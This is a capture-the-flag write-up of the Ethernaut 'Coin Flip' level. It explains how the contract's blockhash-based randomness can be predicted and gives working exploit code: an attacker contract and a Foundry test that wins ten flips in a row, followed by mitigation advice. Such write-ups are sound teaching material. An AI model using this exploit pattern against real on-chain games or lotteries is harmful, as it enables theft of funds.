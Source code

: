 # Level 3 - Coin Flip

## Objectives

- guess the correct outcome of the game 10 times in a row

## Contract Overview

The `CoinFlip` contract is a simple game where there's only one function `flip()` where user has to supply his guess, either `true` or `false`. If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased. `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong. The goal of the game is to get the most consecutive wins.

In other words the contract is supposed to work as follows:

- Users can guess the number by calling `flip()` function and passing their
  guess as an argument to the `_guess` parameter
- If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased

```solidity
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

- `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong

```solidity

  constructor() {
      consecutiveWins = 0;
  }
```

- The goal of the game is to get the most consecutive wins

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/CoinFlip_slither.png)

## Finding the weak spots

In this contract the weak spot is problem with randomness. Ethereum is a deterministic Turing machine, with no inherent randomness involved. To generate randomness in Ethereum developers often make use of data related to the blocks, i.e., block number, hash, etc. These variables may look random but are actually deterministic and can be exploited if the inputs are known. We have such problem in `CoinFlip` contract.

This weak spot can be abused by the attacker who have access to the source code of the smart contract and can reverse the game logic and calculate the winning condition in advance.

My goal is to get `consecutiveWins` up to 10. This variable is updated in `flip` function.

```solidity
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```

Let's look into how the `side` variable is getting its value. In the first line of the `flip` function, we can see the source of randomness named `blockValue`. This is then divided by the `FACTOR` which is also available to us and the result is stored int the variable `coinFlip`. If the value of coinFlip is 1, then the side will be set to true, otherwise, false.

```solidity
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  uint256 blockValue = uint256(blockhash(block.number - 1));

  uint256 coinFlip = blockValue / FACTOR;
```

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will contain an attack function that calculates the outcome of the game in advance. He can call this function each block and score 10 consecutive wins easily.

## Plan of the attack

1. Attacker creates the malicious contract that will contain `flip` function that calculates the outcome of the game in advance.
2. Attacker calls the `flip` function from the malicious contract.
3. Attacker will repeat the attack in 10 consecutive blocks.

## Malicious contract (CoinFlipAttack.sol)

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom malicious contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

Attacker should call the `flip` function from the malicious contract. The `flip` function calculates the outcome of the game -> boolean value
`side`. The `flip` function from the malicious contract calls the `flip()` function inside the `CoinFlip` contract. It passes the calculated `side` value as an argument to the `_guess` parameter of the `flip()` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {
    CoinFlip victimContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddress) public {
        victimContract = CoinFlip(_victimContractAddress);
    }

    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        victimContract.flip(side);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/03-CoinFlip.t.sol))

```solidity
 // Malicious contract that contains `flip` function that calculates the outcome of the game in advance
        CoinFlipAttack coinFlipAttack = new CoinFlipAttack(levelAddress);

        emit log_named_uint(
            "Attacker's score before the attack: ",
            coinFlipContract.consecutiveWins()
        );
        emit log_string(
            "Attacker runs the exploit for 10 consecutive blocks..."
        );

        // Attack will be repeated in 10 consecutive blocks
        for (uint256 i = 1; i <= 10; i++) {
            vm.roll(i); // cheatcode to simulate running the attack on each subsequent block; we are using vm.roll() to create the next block
            // Calling the `flip` function from the malicious contract
            coinFlipAttack.flip();
            emit log_named_uint(
                "Consecutive wins: ",
                coinFlipContract.consecutiveWins()
            );
        }

        // Test assertion
        assertEq(coinFlipContract.consecutiveWins(), 10);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/CoinFlip.png)

## Recommendations

- `CoinFlip` contract can be easily exploited by abusing the Weak PRNG. This can
  be used both by the miners and the potential malicious users.
  - The use of Chainlink VRF or RANDAO is recommended for generating randomness.
- The `flip()` function does not check if the caller is a contract. Such a check
  would prevent attacks like the one presented in the Proof of Concept. An
  example of such validation would be wrapping the logic of the `flip()`
  function in the `if / else` statement like the one shown below:

```solidity
function flip(bool _guess) public returns (bool) {
	if (msg.sender == tx.origin) {
		/*
		* LOGIC HERE
		*/
	}
	else {
		revert("Caller cannot be a contract!");
	}
}
```

- This however would not solve the problem completely. The attacker could still
  calculate the outcome of the game externally and call the `flip()` function
  manually or automate the whole process via a `bash` script.

```

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/3.-coin-flip-problem-of-randomness

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
```
